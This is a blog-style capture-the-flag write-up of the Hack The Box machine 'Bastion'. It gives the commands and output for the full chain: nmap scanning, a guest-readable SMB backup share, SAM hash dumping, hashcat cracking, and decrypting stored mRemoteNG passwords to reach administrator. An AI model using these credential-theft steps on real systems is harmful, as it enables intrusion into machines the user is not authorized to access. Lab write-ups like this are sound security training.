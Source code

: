 +++
title = "Hack The Box: Bastion"
date = "2019-09-06"
author = ""
cover = ""
tags = ["HTB", "SMB", "SAM", "John", "mRemoteNG"]
keywords = ["", ""]
description = ""
showFullContent = false
images = ["/img/bastion/info_card.png"]
+++
<!--more-->
{{< image src="/img/bastion/info_card.png" alt="Bastion Info Card" position="center" style="border-radius: 8px;" >}}

# Summary

Bastion was a relatively easy box. There is an smb share is accessible without credentials and inside there is a backup drive that we can mount and access. From the drive we can dump the SAM file and crack it to get login credentials. Once logged in we find mRemoteNG installed and extract its saved passwords to get admin access. 

# Enumeration

I start with this nmap command to quickly find open ports.
```sh
nmap -sS -p- --min-rate=1000 10.10.10.134

Nmap scan report for 10.10.10.134
Host is up (0.23s latency).
Not shown: 65522 closed ports
PORT      STATE SERVICE
22/tcp    open  ssh
135/tcp   open  msrpc
139/tcp   open  netbios-ssn
445/tcp   open  microsoft-ds
5985/tcp  open  wsman
47001/tcp open  winrm
49664/tcp open  unknown
49665/tcp open  unknown
49666/tcp open  unknown
49667/tcp open  unknown
49668/tcp open  unknown
49669/tcp open  unknown
49670/tcp open  unknown
```

Then run a thorough service scan on the discovered ports.

```sh
nmap -sC -sV -p 22,135,139,445,5985,47001 -oA nmap/bastion 10.10.10.134

Nmap scan report for 10.10.10.134
Host is up (0.22s latency).

PORT      STATE SERVICE      VERSION
22/tcp    open  ssh          OpenSSH for_Windows_7.9 (protocol 2.0)
| ssh-hostkey:
|   2048 3a:56:ae:75:3c:78:0e:c8:56:4d:cb:1c:22:bf:45:8a (RSA)
|   256 cc:2e:56:ab:19:97:d5:bb:03:fb:82:cd:63:da:68:01 (ECDSA)
|_  256 93:5f:5d:aa:ca:9f:53:e7:f2:82:e6:64:a8:a3:a0:18 (ED25519)
135/tcp   open  msrpc        Microsoft Windows RPC
139/tcp   open  netbios-ssn  Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds Windows Server 2016 Standard 14393 microsoft-ds
5985/tcp  open  http         Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
47001/tcp open  http         Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
Service Info: OSs: Windows, Windows Server 2008 R2 - 2012; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: -42m39s, deviation: 1h09m15s, median: -2m40s
| smb-os-discovery:
|   OS: Windows Server 2016 Standard 14393 (Windows Server 2016 Standard 6.3)
|   Computer name: Bastion
|   NetBIOS computer name: BASTION\x00
|   Workgroup: WORKGROUP\x00
|_  System time: 2019-09-06T13:28:45+02:00
| smb-security-mode:
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode:
|   2.02:
|_    Message signing enabled but not required
| smb2-time:
|   date: 2019-09-06 12:28:49
|_  start_date: 2019-09-06 11:58:13

```
## SMB

Based on the open ports the best service to check out first is smb.

```sh
smbmap -H 10.10.10.134 -u ' '

[+] Finding open SMB ports....
[+] Guest SMB session established on 10.10.10.134...
[+] IP: 10.10.10.134:445        Name: 10.10.10.134
        Disk                                                    Permissions
        ----                                                    -----------
        ADMIN$                                                  NO ACCESS
        Backups                                                 READ, WRITE
        C$                                                      NO ACCESS
        IPC$                                                    READ ONLY
```
After running smbmap, I discover a share called Backups that I have read and write permissions as a guest user.

Since this is a windows machine I will switch to my windows vm to make my work easier.

{{< image src="/img/bastion/backup_share.png" alt="backup share" position="center" style="border-radius: 8px;" >}}

<br>

Contents of note.txt

*Sysadmins: please don't transfer the entire backup file locally, the VPN to the subsidiary office is too slow.*

Going deeper into the WindowsImageBackup folder I found a backup image which is quite big. Downloading the whole file would not be an option as the note.txt suggested. Fortunately I can mount it through the share remotely, this is the reason why I wanted to use a windows vm.

{{< image src="/img/bastion/backup_share_2.png" alt="backup share" position="center" style="border-radius: 8px;" >}}

<br>

On mounting it, it appears as Local Disk (D:). After accessing the home directory of user L4mpje and looking through the folders there was no user.txt, it must have been excluded from the backup.

{{< image src="/img/bastion/backup_share_3.png" alt="backup share" position="center" style="border-radius: 8px;" >}}

At this stage I was stuck for a while (I still suck at owning windows) and after some hints in the forum I figured I should look at where credentials are stored locally on windows and how to get them. Simply the equivalent of /etc/shadow or /etc/passwd on linux.

I learnt that I should be looking in C:\windows\system32\config for the SAM and SYSTEM files which I found.

{{< image src="/img/bastion/backup_share_4.png" alt="backup share" position="center" style="border-radius: 8px;" >}}

##### Now to get the credentials!

I pulled the 2 files back to my kali box and using samdump2 I got the user hash.

```sh
samdump2 SYSTEM SAM

*disabled* Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
*disabled* Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
L4mpje:1000:aad3b435b51404eeaad3b435b51404ee:26112010952d963c8dc4217daec986d9:::
```
I then cracked the NTLM hash for L4mpje using hashcat and got the password.

```sh
hashcat -m 1000 -a 0 26112010952d963c8dc4217daec986d9 /usr/share/wordlists/rockyou.txt --force

26112010952d963c8dc4217daec986d9:bureaulampje
```
# Exploitation

Now that I have a username and password I can login through ssh.

{{< image src="/img/bastion/bastion_5.png" alt="backup share" position="center" style="border-radius: 8px;" >}}

Now that user is owned, let's try to escalate privileges to admin.

I switched to powershell and started looking at installed programs. mRemoteNG isn't a default windows application so let me look into it and if it can help in privesc.

{{< image src="/img/bastion/bastion_6.png" alt="backup share" position="center" style="border-radius: 8px;" >}}

<br>

According to their website:

*mRemoteNG is a fork of mRemote: an open source, tabbed, multi-protocol, remote connections manager.*

I found a metasploit module that claims to extract saved passwords from mRemoteNG. Since I am logged in I don't need metasploit so I looked at the source to see how it extracts the passwords and decrypts them.

The saved passwords are located in AppData in mRemoteNG\confCons.xml. Once I found the file the admin password was there but encrypted.

{{< image src="/img/bastion/bastion_7.png" alt="backup share" position="center" style="border-radius: 8px;" >}}

I was able to find a script on github to decrypt the password.

```sh
./mremoteng_decrypt.py -s aEWNFV5uGcjUHF0uS17QTdT9kVqtKCPeoC0Nw5dmaPFjNQ2kt/zO5xDqE4HdVmHAowVRdC7emf7lWWA10dQKiw==

Password: thXLHM96BeKL0ER2
```
I can finally login as administrator and own system!

{{< image src="/img/bastion/bastion_8.png" alt="backup share" position="center" style="border-radius: 8px;" >}}

# References

- [mremoteng_decrypt.py](https://github.com/haseebT/mRemoteNG-Decrypt/blob/master/mremoteng_decrypt.py)
- [mremote metasploit module](https://vulners.com/metasploit/MSF:POST/WINDOWS/GATHER/CREDENTIALS/MREMOTE/)
